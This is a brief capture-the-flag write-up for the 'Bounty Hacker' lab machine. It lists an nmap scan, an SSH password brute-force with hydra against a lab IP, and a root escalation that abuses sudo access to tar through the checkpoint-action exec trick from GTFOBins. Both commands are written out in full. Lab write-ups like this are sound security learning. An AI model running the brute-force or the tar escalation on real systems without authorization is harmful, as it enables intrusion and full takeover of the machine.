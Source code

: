 # Bounty Hacker
## Enumeration
+ Ran nmap initial scan.
+ Found FTP, SSH and Apache running on machine.
+ Obtained password list and username hints.
+ Used hydra to obtain creds: `hydra -l lin -P locks.txt 10.10.38.221 -t 4 ssh`

## Exploitation 
+ Logged into machine as lin.

## Privilege Escalation
+ Ran `sudo -l` to check permissions.
+ User `lin` can run `/bin/tar` as root.
+ Obtained payload using GTFOBins to get root: `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`